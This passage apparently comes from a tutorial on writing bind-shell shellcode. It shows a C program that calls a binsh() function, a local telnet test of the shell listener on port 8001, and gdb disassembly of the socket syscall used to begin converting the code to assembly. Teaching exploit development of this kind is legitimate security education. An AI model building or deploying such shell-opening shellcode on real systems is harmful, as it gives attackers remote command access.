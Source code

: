 ```C

	int main(void) {
		binsh();
		return 0;
	}
```

So, now we have the code let's compile it and try it with telnet :

```sh
	[student@localhost Documents]$ ./payload &
	[2] 16991
	[student@localhost Documents]$ telnet 127.0.0.1 8001
	Trying 127.0.0.1...
	Connected to 127.0.0.1.
	Escape character is '^]'.
	echo that works !!
	that works !!
	^[)
```

Ok our program works. So now we can disassemble it and try to write our shellcode in asm. I will show you how	to do for the first syscall (socket) and then I will do it again for the others syscall... Let's go :

```sh
	[student@localhost Documents]$ gdb payload -q
	Reading symbols from /home/student/Documents/payload...done.
	(gdb) disas binsh 
	Dump of assembler code for function binsh:
	   [...]

	   0x080482c2 <+6>:	movl   $0x0,0x8(%esp)
	   // push IPPROTO_IP = 0
	   0x080482ca <+14>:	movl   $0x1,0x4(%esp)
	   // push SOCK_STREAM = 1
	   0x080482d2 <+22>:	movl   $0x2,(%esp)
	   // push AF_INET = 2
	   0x080482d9 <+29>:	call   0x8055480 <socket>

	   [...]
	   0x0804839e <+226>:	leave  
	   0x0804839f <+227>:	ret    
	End of assembler dump.
	(gdb) disas socket
	Dump of assembler code for function socket:
	   0x08055480 <+0>:	mov    %ebx,%edx
	   0x08055482 <+2>:	mov    $0x66,%eax
	   0x08055487 <+7>:	mov    $0x1,%ebx
	   0x0805548c <+12>:	lea    0x4(%esp),%ecx
	   0x08055490 <+16>:	call   *0x80d6904
	   0x08055496 <+22>:	mov    %edx,%ebx
	   0x08055498 <+24>:	cmp    $0xffffff83,%eax
	   0x0805549b <+27>:	jae    0x8056830 <__syscall_error>
	   0x080554a1 <+33>:	ret    
	End of assembler dump.
	(gdb)
```
